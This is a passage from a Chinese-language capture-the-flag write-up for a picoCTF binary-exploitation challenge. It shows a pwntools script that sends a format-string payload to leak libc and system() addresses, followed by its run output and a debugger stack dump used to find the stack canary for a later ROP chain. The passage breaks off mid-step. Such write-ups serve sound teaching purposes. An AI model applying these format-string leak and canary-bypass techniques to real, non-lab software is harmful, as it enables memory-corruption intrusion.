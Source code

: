     if args.REMOTE:
        r = remote("jupiter.challenges.picoctf.org", 18263)
        ans = -3727
    elif args.LOCAL:
        r = process("./V", env={"LD_PRELOAD" : "./libc-2.27.so"})
        # r = process('./vuln')
        # ans = -3615
        ans = -3727

    '''#############
    Find Libc address by stack info
    #############'''
    r.recvuntil(b'What number would you like to guess?\n')
    r.sendline(str(ans).encode())
    r.recvuntil(b'Name? ')
    r.sendline(b"%147$p")
    r.recvuntil(b"Congrats: 0x")
    __libc_start_main = int(r.recvuntil(b"\n").strip().decode(), 16)
    libc_addr = __libc_start_main - 0x018fa1
    libc_system_addr = libc_addr + 0x03cf10
    success(f"libc base address = {hex(libc_addr)}")
    success(f"libc system address = {hex(libc_system_addr)}")
    raw_input()
    ```
    ```bash
    $ python exp.py LOCAL
    [+] Starting local process './vuln': pid 9451
    [+] libc base address = 0xf7dce000
    [+] libc system address = 0xf7e0af10
    $ python exp.py REMOTE
    [+] Opening connection to jupiter.challenges.picoctf.org on port 18263: Done
    [+] libc base address = 0xf7d99000
    [+] libc system address = 0xf7dd5f10
    ```
4. **找canary**
這一題因為有開canary又要觸發rop所以勢必會蓋到，可以先把相對位置記起來，也就是$esp+0x021c
    ```bash
    0xffffc978│+0x0218: 0xf7e22d39  →  <printf+9> add eax, 0x1982c7
    0xffffc97c│+0x021c: 0x0c458f00
    0xffffc980│+0x0220: 0x0804a0c4  →  "Version: %x\n\n"
    0xffffc984│+0x0224: 0x0804bfb8  →  0x0804bec0
    0xffffc988│+0x0228: 0xffffc9a8  →  0x00000000    ← $ebp
    ```
    ```bash
    $ python exp.py LOCAL
    [+] Starting local process './V': pid 11379
    [+] libc base address = 0xf7d2f000
    [+] libc system address = 0xf7d6bf10
